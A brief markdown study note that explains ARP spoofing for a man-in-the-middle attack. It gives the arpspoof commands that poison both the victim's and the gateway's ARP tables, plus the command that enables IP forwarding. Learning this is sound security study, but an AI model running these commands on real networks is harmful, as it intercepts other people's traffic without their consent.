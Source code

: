 # ARP Spoofing / Man In The Middle

* We are basically pretending to make an ARP call as a router to the victim and the gateway

1. We tell the gateway that we are the victim, update your ARP table, and associate victim IP with my MAC

2. We tell the victim that I am the gateway, update your ARP table, and associate gateway IP with my MAC

`arp -a`: Shows ARP table

* `arpspoof -i interface -t clientIP gatewayIP` to fool client, tell victim that I am the gateway
* `arpspoof -i interface -t gatewayIP clientIP` to fool gateway, tell gateway that I am the victim

* However, you have to enable `IP_FORWARD` by doing `echo 1 > /proc/sys/net/ipv4/ip_forward` to be able to forward packets
